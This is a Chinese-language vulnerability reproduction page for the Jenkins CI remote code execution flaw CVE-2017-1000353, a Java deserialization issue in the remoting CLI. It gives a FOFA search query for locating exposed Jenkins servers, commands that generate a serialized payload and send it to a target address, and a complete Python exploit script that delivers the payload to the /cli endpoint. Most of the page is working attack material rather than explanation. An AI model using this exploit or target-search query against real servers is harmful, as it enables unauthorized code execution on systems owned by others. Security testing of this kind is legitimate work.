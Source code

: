 ```yaml
---
Title: Jenkins CI 远程代码执行漏洞 CVE-2017-1000353
---
```


# Jenkins CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的Java SignedObject对象，传输到基于远程处理的Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。Altoros Jenkins for PCF 1.0.2之前所有版本都受影响，所有用户尽快升级

## 漏洞影响

<a-checkbox checked>Jenkins</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308154434574.png)

<a-alert type="success" message="下载生成POC的工具: https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar" description="" showIcon>
</a-alert>

<br/>

生成 `jenkins_poc.ser`

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

![img](../../../.vuepress/public/img/1629514273598-a151eaba-8a4e-4070-b274-caaedef61293.png)



使用Python脚本命令执行

`https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py`

```python
python3 jenkins.py http://xxx.xxx.xxx.xxx:8080 jenkins_poc.ser
```

![img](../../../.vuepress/public/img/1629514591067-fd7562de-73c4-4600-b071-459df7843238.png)

成功生成 success

![img](../../../.vuepress/public/img/1629514953277-01a113d9-3d07-4656-921b-0e80bcd712b9.png)

## 漏洞POC

```python
import urllib
import sys
import requests
import uuid
import threading
import time
import gzip
import urllib3
import zlib

proxies = {
# 'http': 'http://127.0.0.1:8085',
# 'https': 'http://127.0.0.1:8090',
}

URL = '%s/cli' % sys.argv[1].rstrip('/')

PREAMLE = b'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='
PROTO = b'\x00\x00\x00\x00'

with open(sys.argv[2], "rb") as f:
    FILE_SER = f.read()

def download(url, session):

    headers = {'Side' : 'download'}
    headers['Content-type'] = 'application/x-www-form-urlencoded'
    headers['Session'] = session
    headers['Transfer-Encoding'] = 'chunked'
    r = requests.post(url, data=null_payload(), headers=headers, proxies=proxies, stream=True, verify=False)
    print(r.content)


def upload(url, session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding'] = None
    r = requests.post(url,data=data,headers=headers,proxies=proxies, verify=False)


def upload_chunked(url,session, data):

    headers = {'Side' : 'upload'}
    headers['Session'] = session
    headers['Content-type'] = 'application/octet-stream'
    headers['Accept-Encoding']= None
    headers['Transfer-Encoding'] = 'chunked'
    headers['Cache-Control'] = 'no-cache'

    r = requests.post(url, headers=headers, data=create_payload_chunked(), proxies=proxies, verify=False)


def null_payload():
    yield b" "

def create_payload():
    payload = PREAMLE + PROTO + FILE_SER

    return payload

def create_payload_chunked():
    yield PREAMLE
    yield PROTO
    yield FILE_SER

def main():
    print("start")

    session = str(uuid.uuid4())

    t = threading.Thread(target=download, args=(URL, session))
    t.start()
    
    time.sleep(2)
    print("pwn")
    #upload(URL, session, create_payload())

    upload_chunked(URL, session, "asdf")

if __name__ == "__main__":
    main()

```

